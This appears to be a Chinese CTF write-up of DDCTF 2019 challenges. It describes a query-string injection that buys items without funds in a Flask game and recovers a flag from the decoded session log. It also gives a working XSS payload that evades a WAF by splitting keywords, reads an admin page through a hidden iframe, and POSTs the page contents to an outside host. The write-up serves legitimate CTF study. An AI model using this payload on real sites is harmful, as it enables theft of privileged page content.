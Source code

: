 首先我们看一下我们购买的正常逻辑。


此时，由于其先进先出的原因，我们可以一开始就传入两个参数，如下：
```
?action:trigger_event%23;action:buy;111%23action:get_flag;
```
此时传入一个buy和getfalg。我们再看一下逻辑。这样成功实现了，没钱买东西。




此时，问题来了，即便我们够了5个钻石，此时也获取不到flag。

因为他将打印flag的语句注释掉了。

![2019041315551617756239.png](https://xzfile.aliyuncs.com/media/upload/picture/20190419014933-5323353c-6202-1.png)

可以看图片155行，此时return的为“天真的孩子”。那这样的话，是不是这题就没法解了？

肯定能解啊，怎么可能不能解。

此时仔细看165行，发现了什么？他是将flag作为参数传到show_flag的。别忘了，trigger_event是有log功能的，也就是此时flag会加进log里的。虽然log是在session中，但是，此时flask的特性，我们之前已经说过了。session是在本地的。虽然不能伪造，但是我们还是通过工具解开，查看内容的。

![20190413155516616949593.png](https://xzfile.aliyuncs.com/media/upload/picture/20190419014933-535036fe-6202-1.png)

![20190413155516621987237.png](https://xzfile.aliyuncs.com/media/upload/picture/20190419014934-536aa9bc-6202-1.png)

![20190413155516626378085.png](https://xzfile.aliyuncs.com/media/upload/picture/20190419014934-537ca694-6202-1.png)



### [200pt] 欢迎报名DDCTF
emm,感觉这题应该比吃鸡分高的。这道题，感觉比较偏实战渗透。不过作为ctf题目来说，的确有点脑洞了。因为大部分同学没往实战上想。

首先第一步：XSS

说实话，一开始拿到这题第一反应是注入。瞎注了半天。最后无疾而终。

知道hint出来，竟然是我最喜欢的xss，然后就做了。做到后面，已经拿到接口了，也尝试了注入，然而又没卵用。

第二步：注入

主办方不放hint是注入的话。这题我就不打算做了。实在get不到点。还是太菜了、

------以下正文------

xss读文件，很基础。发现waf了iframe和window。在es6新语法中，很好绕的。

```javascript
function s(e) {
  var t = new XMLHttpRequest;
  t.open("POST", "//eval:2017", !0),
  t.setRequestHeader("Content-type", "text/plain"),
  t.onreadystatechange = function() {
    4 == t.readyState && t.status
  },
  t.send(e);
};

var a = document.createElement("ifr"+"ame");


a.src = "./admin.php";

document.body.appendChild(a);
a.onload = function (){
  var c = document.getElementsByTagName("ifr"+"ame")[0]["contentWin"+"dow"].document.getElementsByTagName("body")[0].innerHTML;
  s("5am3: "+c);
};
```